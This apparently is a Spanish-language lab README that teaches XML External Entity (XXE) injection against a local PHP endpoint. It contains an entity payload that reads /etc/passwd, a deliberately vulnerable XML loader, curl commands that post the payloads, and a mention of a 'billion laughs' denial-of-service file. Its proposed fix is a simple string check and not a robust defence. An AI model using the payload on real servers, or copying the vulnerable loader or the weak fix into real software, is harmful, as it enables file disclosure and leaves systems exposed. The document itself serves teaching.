



# Ejemplo de una vulnerabilidad XXE

Una vulnerabilidad XXE permite al atacante ejecutar comandos en un servidor usando las entidades XML.

**Para probar esta vulnerabilidad debes moverte a la carpeta XXE que es donde están los exploits:**

```bash
cd ./XXE
```

### Las entidades XML

Una entidad XML funciona de forma similar a una variable: permite almacenar contenido para mostrarlo en otra parte del fichero. Las entidades tipo SYSTEM permiten acceder a ficheros del sistema.

```
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd"> // Read the content of /etc/passwd
]>
<foo>&xxe;</foo>
```

### Código vulnerable

http://localhost:8080/XXE/xxe.php

Este código muestra el contenido de un fichero XML que se le pase como parámetro.

```
<?php
/* Display PHP Errors */
ini_set('display_errors', 1);
error_reporting(E_ALL);

/* Create a DOM Document */
$dom = new DOMDocument();

/* Get the XML loaded in the POST Requests */
$dom->loadXML(file_get_contents('php://input'), LIBXML_NOENT | LIBXML_DTDLOAD);

/* Convert the XML document into a SimpleXMLDocument*/
$parsed = simplexml_import_dom($dom);

/* Shows the result */
echo $parsed;
?>
```

Puedes enviar un fichero al sitio web usando el comando `curl`.

**Linux / macOS (Bash):**
```bash
curl -X POST http://localhost:8080/XXE/xxe.php -H "Content-Type: text/xml; charset=UTF-8" --data-binary "@safe.xml"
```

**Windows (PowerShell / CMD):**
```powershell
curl.exe -X POST http://localhost:8080/XXE/xxe.php -H "Content-Type: text/xml; charset=UTF-8" --data-binary "@safe.xml"
```



Si envías un fichero XML con entidades SYSTEM puedes acceder a los ficheros del sistema.

**Linux / macOS (Bash):**
```bash
curl -X POST http://localhost:8080/XXE/xxe.php -H "Content-Type: text/xml; charset=UTF-8" --data-binary "@xxe_payload_passwords.xml"
```

**Windows (PowerShell / CMD):**
```powershell
curl.exe -X POST http://localhost:8080/XXE/xxe.php -H "Content-Type: text/xml; charset=UTF-8" --data-binary "@xxe_payload_passwords.xml"
```

> [!NOTE]
> Dentro de esta carpeta hay un archivo `xxe_payload_billion.xml` que contiene el código de una vulnerabilidad llamada "un billón de risas" que permite tirar un servidor saturando la memoria RAM con variables con recursividad. No obstante, PHP es capaz de detectar esta vulnerabilidad y bloquearla, por lo que no se puede ejecutar; puedes guardarlo si quieres probarlo en algún servidor antiguo.



### Código seguro

Para eliminar esta vulnerabilidad lo ideal sería prohibir la ejecución de ficheros XML con entidades.

```
/* If the XML Document contains entities finish the execution */
if (strpos(file_get_contents('php://input'), "<!ENTITY") !== false){
    die("No se permiten entidades externas");
}
```

Envía el payload del fichero etc/passwd al script PHP seguro.

**Linux / macOS (Bash):**
```bash
curl -X POST http://localhost:8080/XXE/xxe_secured.php -H "Content-Type: text/xml; charset=UTF-8" --data-binary "@xxe_payload_passwords.xml"
```

**Windows (PowerShell / CMD):**
```powershell
curl.exe -X POST http://localhost:8080/XXE/xxe_secured.php -H "Content-Type: text/xml; charset=UTF-8" --data-binary "@xxe_payload_passwords.xml"
```


